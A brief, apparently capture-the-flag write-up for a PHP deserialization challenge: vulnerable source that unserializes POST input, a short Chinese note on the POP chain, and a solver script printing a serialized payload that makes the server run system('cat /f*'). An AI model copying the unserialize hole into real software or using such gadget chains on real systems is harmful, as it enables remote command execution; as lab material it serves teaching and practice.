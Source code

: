 ```
{
    public $eva1;
    public $interesting;

    public function __get($var)
    {
        echo("get!<br>");
        $eva1=$this->eva1;
        $eva1($this->interesting);
    }
}
if (isset($_POST['url'])) 
{
    unserialize($_POST['url']);
}

?> 
```

pop链从上往下很明显了：destruct👉invoke👉get

```
<?
class syc
{
public $cuit;
}

class lover
{
public $yxx;
public $QW;

}

class web
{
public $eva1='system';
public $interesting='cat /f*';

}
$syc=new syc();
$lover=new lover();
$web=new web();
$syc->cuit=$lover;
$lover->yxx=$web;
echo serialize($syc);

#O:3:"syc":1:{s:4:"cuit";O:5:"lover":2:{s:3:"yxx";O:3:"web":2:{s:4:"eva1";s:6:"system";s:11:"interesting";s:7:"cat /f*";}s:2:"QW";N;}}
```
